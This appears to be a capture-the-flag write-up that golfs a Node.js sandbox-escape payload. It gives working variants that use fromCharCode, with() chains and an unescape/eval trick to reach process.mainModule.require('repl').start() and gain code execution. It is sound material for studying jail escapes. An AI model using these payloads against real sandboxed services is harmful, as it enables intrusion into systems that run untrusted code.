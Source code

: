 This solution is smart because of the variable part. It uses variable to save the space.

We can combined this with Maple's solution:

``` js
with(String)
  with(f=fromCharCode,this)
    with(constructor)
      with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,99,e,s=115,s))())
        with(mainModule)
          with(require(f(r,e,p,108)))
            start()
```

It can be shorter if we replace the first `constructor` to something else, we can search for the function in `Object.prototype`

``` js
for(let key of Object.getOwnPropertyNames((obj={}).__proto__)) {
  if (typeof obj[key] === 'function') {
    console.log(key)
  }
}
```

The shortest is `valueOf`:

``` js
with(String)with(f=fromCharCode,this)with(valueOf)with(constructor(f(r=114,e=101,116,117,r,110,32,p=112,r,111,99,e,s=115,s))())with(mainModule)with(require(f(r,e,p,108)))start()
```

It's 177 in length.

For another kind of solution using `unescape`, I modified the payload from @fredd and got 115 in length in the end. 

``` js
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))
```

